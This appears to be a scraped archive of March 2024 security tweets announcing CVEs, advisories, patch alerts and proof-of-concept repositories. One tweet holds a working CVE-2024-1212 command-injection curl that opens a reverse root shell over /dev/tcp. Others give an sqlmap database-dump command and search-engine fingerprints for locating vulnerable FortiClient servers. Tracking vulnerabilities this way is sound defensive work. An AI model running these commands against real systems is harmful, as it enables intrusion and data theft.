


# cyber_advising
**https://twitter.com/cyber_advising/status/1774260255418982669 _at 2024-03-31, 02:19:43_**
<blockquote>
CVE-2024-0582: memory leak flaw was found in the Linux kernel’s io_uring functionality .. IORING_REGISTER_PBUF_RING, mmap() it, and then frees it. This flaw allows a local user to crash or potentially escalate their privileges on the system.

PoC
https://t.co/g4tmiTYwZn
</blockquote>

* https://github.com/ysanatomic/io_uring_LPE-CVE-2024-0582

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---

# DailyDarkWeb
**https://twitter.com/DailyDarkWeb/status/1773999478426468844 _at 2024-03-30, 09:03:29_**
<blockquote>
Threat Actor Offers Windows 1-Day LPE (CVE-2024-26169) Exploit for Sale at $10,000

https://t.co/TvaNgSUjBp

#DarkWeb https://t.co/VKesKo5RdN
</blockquote>

* https://dailydarkweb.net/threat-actor-offers-windows-1-day-lpe-cve-2024-26169-exploit-for-sale-at-10000/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---

# DailyDarkWeb
**https://twitter.com/DailyDarkWeb/status/1773983526481781137 _at 2024-03-30, 08:00:06_**
<blockquote>
Backdoor found in XZ utilities used by many Linux distros (CVE-2024-3094)

A vulnerability (CVE-2024-3094) in XZ Utils, the XZ format compression utilities included in most Linux distributions, may “enable a malicious actor to break sshd authentication and gain unauthorized https://t.co/8m7Rmei1Sb
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>111</code></td>
<td>Favorites: <code>282</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1773438678796255577 _at 2024-03-28, 19:55:04_**
<blockquote>
CVE-2024-1086: Universal local privilege escalation Proof-of-Concept  - Linux kernels between v5.14 and v6.6, including Debian, Ubuntu, and KernelCTF. The success rate is 99.4% in KernelCTF images.

PoC
https://t.co/FSilQCy6fs https://t.co/JgoJX4W14G
</blockquote>

* https://github.com/notselwyn/cve-2024-1086

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# wallet_guard
**https://twitter.com/wallet_guard/status/1773055686827540877 _at 2024-03-27, 18:33:12_**
<blockquote>
🚨 CHROME 0-DAY CVE-2024-2883

Multiple vulnerabilities were found by security researchers &amp; have been patched.

Update your Chrome browsers (Brave, Opera, Edge, etc.)! Google has released updates to address these vulnerabilities.

Share &amp; stay safe! 🫡 Steps &amp; source below! ⬇️ https://t.co/a8CHhrCz1w
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>115</code></td>
<td>Favorites: <code>235</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1772711549410386240 _at 2024-03-26, 19:45:43_**
<blockquote>
Universal local privilege escalation Proof-of-Concept exploit for CVE-2024-1086, working on most Linux kernels between v5.14 and v6.6, including Debian, Ubuntu, and KernelCTF. The success rate is 99.4% in KernelCTF images.

https://t.co/gs9D2PV6Vo
</blockquote>

* https://github.com/notselwyn/cve-2024-1086

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>267</code></td>
</tr></table>

---

# DailyDarkWeb
**https://twitter.com/DailyDarkWeb/status/1772684947431518465 _at 2024-03-26, 18:00:01_**
<blockquote>
A threat actor claims to be selling RCE for FortiOS CVE-2024-21762

It is a vulnerability may allow a remote unauthenticated attacker to execute arbitrary code or command via specially crafted HTTP requests.

#DarkWeb https://t.co/OdvIA7wb8l
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1772624942728679448 _at 2024-03-26, 14:01:34_**
<blockquote>
RT @notselwyn: Exciting news! 🚀 Just dropped my blogpost unveiling the universal Linux kernel LPE PoC for CVE-2024-1086 (working on v5.14 -…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1772240267178827815 _at 2024-03-25, 12:33:00_**
<blockquote>
''Analysis of CVE-2023-46214 + PoC''

#infosec #pentest #redteam #blueteam
https://t.co/l8Rg0Y4hxB
</blockquote>

* https://blog.hrncirik.net/cve-2023-46214-analysis

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1772087795370147842 _at 2024-03-25, 02:27:08_**
<blockquote>
A deep dive from @Horizon3Attack  for the recent #Fortinet #FortiClient EMS SQL injection vulnerability, CVE-2023-48788, leads to RCE as SYSTEM.  
🔗Link: https://t.co/wlSnhsfgvg
🔥PoC: https://t.co/DysyfoowGj
</blockquote>

* https://www.horizon3.ai/attack-research/attack-blogs/cve-2023-48788-fortinet-forticlientems-sql-injection-deep-dive/#/
* https://github.com/horizon3ai/CVE-2023-48788

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# Shadowserver
**https://twitter.com/Shadowserver/status/1771963616092193085 _at 2024-03-24, 18:13:42_**
<blockquote>
We have started scanning/reporting Fortinet FortiClient EMS CVE-2023-48788 (pre-auth SQL Injection) vulnerable instances. 

130 vulnerable found on 2024-03-23 

Top: US with 30 IPs

Dashboard geo breakdown: https://t.co/qB7JRwLxDY

Fortinet Advisory: https://t.co/gWWr5cb3F8 https://t.co/taGGm9V6V6
</blockquote>

* https://dashboard.shadowserver.org/statistics/combined/tree/?day=2024-03-23&source=http_vulnerable&source=http_vulnerable6&tag=cve-2023-48788%2B&geo=all&data_set=count&scale=log
* https://www.fortiguard.com/psirt/FG-IR-24-007

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1771446579817304464 _at 2024-03-23, 07:59:11_**
<blockquote>
RT @Horizon3Attack: Our deep-dive for the recent #Fortinet #FortiClient EMS SQL injection vulnerability, CVE-2023-48788, that leads to RCE…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1771368053340872987 _at 2024-03-23, 02:47:09_**
<blockquote>
RT @Horizon3Attack: Our deep-dive for the recent #Fortinet #FortiClient EMS SQL injection vulnerability, CVE-2023-48788, that leads to RCE…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1771283995705160045 _at 2024-03-22, 21:13:08_**
<blockquote>
RT @Horizon3Attack: Our deep-dive for the recent #Fortinet #FortiClient EMS SQL injection vulnerability, CVE-2023-48788, that leads to RCE…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1771223020146663608 _at 2024-03-22, 17:10:50_**
<blockquote>
RT @p1k4l4: I just released the exploit and technical analysis of my CVE-2023-36424 - Windows Kernel Pool (clfs.sys) Corruption Privilege E…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1771184379441586289 _at 2024-03-22, 14:37:17_**
<blockquote>
RT @1ZRR4H: 💣 CVE-2023-48788: SQL Injection to Remote Code Execution in FortiClient Endpoint Management Servers.

📍 Horizon3 blog: https://…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1771107648709996996 _at 2024-03-22, 09:32:23_**
<blockquote>
RT @Horizon3Attack: Our deep-dive for the recent #Fortinet #FortiClient EMS SQL injection vulnerability, CVE-2023-48788, that leads to RCE…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1771078335759786264 _at 2024-03-22, 07:35:54_**
<blockquote>
RT @p1k4l4: I just released the exploit and technical analysis of my CVE-2023-36424 - Windows Kernel Pool (clfs.sys) Corruption Privilege E…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>105</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1771066998325154037 _at 2024-03-22, 06:50:51_**
<blockquote>
RT @p1k4l4: I just released the exploit and technical analysis of my CVE-2023-36424 - Windows Kernel Pool (clfs.sys) Corruption Privilege E…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1771057925135405428 _at 2024-03-22, 06:14:48_**
<blockquote>
RT @p1k4l4: I just released the exploit and technical analysis of my CVE-2023-36424 - Windows Kernel Pool (clfs.sys) Corruption Privilege E…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1770992162597171578 _at 2024-03-22, 01:53:29_**
<blockquote>
🚨Alert🚨CVE-2024-21677: Atlassian Confluence Path Traversal Vulnerability (CVSS:8.3)
⚠ It allows an unauthenticated attacker to exploit an undefinable vulnerability which has a high impact on confidentiality and requires user interaction. 
📊 684K+ Services are found on the… https://t.co/EhI8K6eHgO
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# CyberGovAU
**https://twitter.com/CyberGovAU/status/1770986192923660393 _at 2024-03-22, 01:29:46_**
<blockquote>
❗ ALERT ❗ A critical vulnerability (CVE-2023-48788) is affecting Fortinet’s FortiClientEMS. This can result in remote code execution via specifically crafted requests. 

We recommend implementing patches immediately 👉 https://t.co/4qQmswFCu8 https://t.co/b18ZJLX21b
</blockquote>

* http://www.cyber.gov.au/about-us/view-all-content/alerts-and-advisories/critical-vulnerability-affecting-fortinets-forticlientems

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1770963697126580633 _at 2024-03-22, 00:00:22_**
<blockquote>
CVE-2024-1212: Unauthenticated Command Injection In Progress Kemp LoadMaster https://t.co/MTMZwTMsgU   #Pentesting #CyberSecurity #Infosec https://t.co/Bgp6sNnClO
</blockquote>

* https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/?utm_content=286496380&utm_medium=social&utm_source=twitter&hss_channel=tw-1184539364

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# p1k4l4
**https://twitter.com/p1k4l4/status/1770942052512985320 _at 2024-03-21, 22:34:22_**
<blockquote>
I just released the exploit and technical analysis of my CVE-2023-36424 - Windows Kernel Pool (clfs.sys) Corruption Privilege Escalation.

 Happy Reading.

https://t.co/Z0He4FCgtR

#exploit #cybersecurity #news https://t.co/z5jIMviEfk
</blockquote>

* https://github.com/Nassim-Asrir/CVE-2023-36424

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>115</code></td>
<td>Favorites: <code>414</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1770881579096694952 _at 2024-03-21, 18:34:04_**
<blockquote>
💣 CVE-2023-48788: SQL Injection to Remote Code Execution in FortiClient Endpoint Management Servers.

📍 Horizon3 blog: https://t.co/zaOHz2JFMh.

▪ Shodan: http.favicon.hash:-800551065
▪ Censys: services.http.response.favicons.md5_hash="fb9c168a99561a9672f6dce2144ad7e7" https://t.co/yAC1UOM0sL
</blockquote>

* https://www.horizon3.ai/attack-research/attack-blogs/cve-2023-48788-fortinet-forticlientems-sql-injection-deep-dive/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1770875914240328084 _at 2024-03-21, 18:11:33_**
<blockquote>
Series on browser exploitation : 

Browser Exploitation on Windows - CVE-2019-0567, A Microsoft Edge Type Confusion Vulnerability (Part 3) : https://t.co/GPVElwviiT

CVE-2019-0567, A Microsoft Edge Type Confusion Vulnerability (Part 2) : https://t.co/vaW7LQ0KBm

CVE-2019-0567, A… https://t.co/hv3AjRzgJe
</blockquote>

* https://connormcgarr.github.io/type-confusion-part-3/
* https://connormcgarr.github.io/type-confusion-part-2/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>154</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1770840411545780712 _at 2024-03-21, 15:50:29_**
<blockquote>
RT @Horizon3Attack: Our deep-dive for the recent #Fortinet #FortiClient EMS SQL injection vulnerability, CVE-2023-48788, that leads to RCE…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1770820490715693063 _at 2024-03-21, 14:31:19_**
<blockquote>
RT @Horizon3Attack: Our deep-dive for the recent #Fortinet #FortiClient EMS SQL injection vulnerability, CVE-2023-48788, that leads to RCE…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1770794142404108744 _at 2024-03-21, 12:46:37_**
<blockquote>
RT @Horizon3Attack: Our deep-dive for the recent #Fortinet #FortiClient EMS SQL injection vulnerability, CVE-2023-48788, that leads to RCE…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1770792940257816700 _at 2024-03-21, 12:41:51_**
<blockquote>
Our deep-dive for the recent #Fortinet #FortiClient EMS SQL injection vulnerability, CVE-2023-48788, that leads to RCE as SYSTEM.  
https://t.co/qhg45iaFu3
</blockquote>

* https://www.horizon3.ai/attack-research/cve-2023-48788-fortinet-forticlientems-sql-injection-deep-dive/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1770759511050961028 _at 2024-03-21, 10:29:01_**
<blockquote>
''Critical Exchange Server Flaw (CVE-2024-21410) Under Active Exploitation''

#infosec #pentest #redteam #blueteam
https://t.co/SVPEBKCXva
</blockquote>

* https://thehackernews.com/2024/02/critical-exchange-server-flaw-cve-2024.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1770728321166278885 _at 2024-03-21, 08:25:04_**
<blockquote>
CVE-2024-1212 reverse root shell:

curl -kv "https://192.168.56.4/access/set?param=enableapi&amp;value=1" -u "';ssh -oProxyCommand=';sh&amp;&gt;/dev/tcp/192.168.56.1/4444&lt;&amp;1' https://t.co/v8YCod1h7H #:"
</blockquote>

* http://vulncheck.com

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1770722842285371652 _at 2024-03-21, 08:03:18_**
<blockquote>
RT @0xor0ne: Great advisories writeup by @qualys as usual.
Out-of-bounds read &amp; write and Heap-based buffer overflow (CVE-2023-6246) in gli…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1770667083367669955 _at 2024-03-21, 04:21:44_**
<blockquote>
🚨Alert🚨CVE-2024-1597: An SQL injection flaw carries a CVSS score of 10.0 in Bamboo Data Center and Server.
⚠ This org.postgresql:postgresql dependency vulnerability could allow an unauthenticated attacker to expose assets in your environment!
📊 14K+ Services are found on… https://t.co/aqaMaT8EOW
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1770660829836259631 _at 2024-03-21, 03:56:53_**
<blockquote>
🚨Critical security alert - Ivanti Standalone Sentry users must patch immediately. Remote code execution flaw (CVE-2023-41724) could allow attackers full control of affected systems.

Details: https://t.co/atOI1jmFNw

Get the patch ASAP!
</blockquote>

* https://thehackernews.com/2024/03/ivanti-releases-urgent-fix-for-critical.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>101</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1770656154202333475 _at 2024-03-21, 03:38:19_**
<blockquote>
🚨 Atlassian patched over 25 security issues, including a critical SQL injection bug (CVE-2024-1597) in Bamboo Data Center &amp; Server.

Details: https://t.co/xhZkjQBoeM

Rated 10.0 CVSS score, this flaw requires no user interaction to exploit. Update now to safeguard your systems.
</blockquote>

* https://thehackernews.com/2024/03/atlassian-releases-fixes-for-over-2.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# HackingTeam1
**https://twitter.com/HackingTeam1/status/1770514665539318248 _at 2024-03-20, 18:16:05_**
<blockquote>
😈CVE-2024-21762 : Fortinet FortiOS &amp; FortiProxy 'sslvpnd' - Unauthenticated Remote Code Execution (OOB)
😈POC : https://t.co/3OyApd6wqA
❗️Version : https://t.co/VqmDnTCmv3
🟢Blog / POC : https://t.co/ciyNu5SMgz https://t.co/vwehNde5Lg
</blockquote>

* https://github.com/h4x0r-dz/CVE-2024-21762
* https://www.fortiguard.com/psirt/FG-IR-24-015
* https://www.assetnote.io/resources/research/two-bytes-is-plenty-fortigate-rce-with-cve-2024-21762

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1770493140757017033 _at 2024-03-20, 16:50:33_**
<blockquote>
GHSL-2023-235_GHSL-2023-237,GHSL-2023-251_GHSL-2023-252: Pre-authentication RCE in OpenMetadata - CVE-2024-28253, CVE-2024-28254, CVE-2024-28255, CVE-2024-28845, CVE-2024-28848 https://t.co/coP9b7p8Yh
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2023-235_GHSL-2023-237_Open_Metadata/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1770466530716786713 _at 2024-03-20, 15:04:49_**
<blockquote>
🚨 CVE-2024-21413 dubbed #MonikerLink bypasses Outlook's security to extract NTLM hashes or execute malicious code.

#ANYRUN offers a guide on how to analyze this vulnerability using a cloud VM integrated into a local VPN network 🔎

Don't miss it ⬇️ https://t.co/TfyrpyaB5y
</blockquote>

* https://thn.news/analyzing-cve-2024-21413-sandbox

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1770461715295334457 _at 2024-03-20, 14:45:41_**
<blockquote>
RT @win3zz: CVE-2024-1212: Unauth. Command Injection in Progress Kemp LoadMaster

Severity: Critical

Root cause analysis: https://t.co/Scd…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1770347716586942572 _at 2024-03-20, 07:12:41_**
<blockquote>
RT @theori_io: We've started a blog series on N-day full chain exploits.

The first part is about chrome renderer exploit, CVE-2023-3079.…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# theori_io
**https://twitter.com/theori_io/status/1770344597102923899 _at 2024-03-20, 07:00:18_**
<blockquote>
We've started a blog series on N-day full chain exploits.

The first part is about chrome renderer exploit, CVE-2023-3079.

Check it now!👇👇
https://t.co/JTU6RZD2g4

#Theori #티오리 #Blog #Research #Fermium252 #Chrome #VirtualMachine #CVE #Vulnerability
</blockquote>

* https://blog.theori.io/chaining-n-days-to-compromise-all-part-1-chrome-renderer-rce-1afccf56721b?source=social.tw

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>145</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1770317085211599164 _at 2024-03-20, 05:10:58_**
<blockquote>
GitHub - Chocapikk/CVE-2024-1212: Unauthenticated Command Injection In Progress Kemp LoadMaster - https://t.co/2yFWGUspR7
</blockquote>

* https://github.com/Chocapikk/CVE-2024-1212

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1770314997425729723 _at 2024-03-20, 05:02:40_**
<blockquote>
🚨Alert🚨CVE-2022-0412: Unauthenticated Blind SQL Injection in TI WooCommerce Wishlist WordPress plugin
⚠It is a time-based SQL injection but you can extract databases with just one command.
✈️sqlmap./py -r request./txt --dbs --random-agent --time-sec=12 --level=5 --risk=3… https://t.co/LZt7azIrYq
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>129</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1770110079288615145 _at 2024-03-19, 15:28:24_**
<blockquote>
PoC Releases for 0-day CVE-2024-21762 FortiGate SSLVPN Flaw, Over 133K Remain Vulnerable https://t.co/aEhe1IUBRa
</blockquote>

* https://securityonline.info/poc-releases-for-0-day-cve-2024-21762-fortigate-sslvpn-flaw-over-133k-remain-vulnerable/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# 0vercl0k
**https://twitter.com/0vercl0k/status/1770099357783818508 _at 2024-03-19, 14:45:48_**
<blockquote>
RT @mmolgtm: In this post I'll use CVE-2023-6241, a vulnerability in the Arm Mali GPU that I reported last November to gain arbitrary kerne…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# PentesterLab
**https://twitter.com/PentesterLab/status/1769848493320085892 _at 2024-03-18, 22:08:57_**
<blockquote>
Do you remember CVE-2021-43798? The Directory Traversal in Grafana?

One of a truely interesting details about this vulnerability is that there is a comment to disable the check for directory traversal (G304) from Secure Go:

/* nolint:gosec */ https://t.co/zAQIb8K4HD
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---

# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1769782288533881051 _at 2024-03-18, 17:45:53_**
<blockquote>
